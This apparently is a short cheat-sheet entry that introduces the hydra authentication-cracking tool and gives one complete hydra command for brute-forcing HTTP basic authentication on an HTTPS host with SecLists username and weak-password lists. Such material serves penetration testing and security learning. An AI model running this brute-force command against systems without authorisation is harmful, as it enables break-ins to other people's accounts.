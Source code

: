 [hydra](https://github.com/vanhauser-thc/thc-hydra) is a CLI (and GUI) tool for cracking the authentication of a service.

You can get the username and password lists from [SecLists](https://github.com/danielmiessler/SecLists).

HTTP basic authentication:

```
hydra -t 16 -s 443 -S \
-m https://{$FQDN}/ ${FQDN} https-get \
-L github/SecLists/Usernames/top-usernames-shortlist.txt \
-P github/SecLists/Passwords/Common-Credentials/500-worst-passwords.txt
```
